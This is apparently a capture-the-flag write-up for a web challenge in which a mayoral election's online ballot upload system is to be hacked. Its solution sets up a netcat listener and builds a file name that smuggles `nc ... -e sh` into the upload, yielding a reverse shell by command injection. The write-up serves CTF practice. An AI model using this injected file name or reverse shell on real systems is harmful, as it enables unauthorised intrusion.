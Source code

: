 # Election

Zlatoust is holding their yearly election for city mayor. This year, they've upgraded to an online ballot submission system. Can you find a way to hack it?

>**Note**: This challenge does not involve any bruteforcing/dirbusting.

## Description

Web Level 2

## Solution

1. Term 1: `nc -lvp 1337`
2. Term 2: `touch 'test.$(nc 127.0.0.1 1337 -e sh);pdf'`

Upload the file created in Term 2 for a shell callback in Term 1.
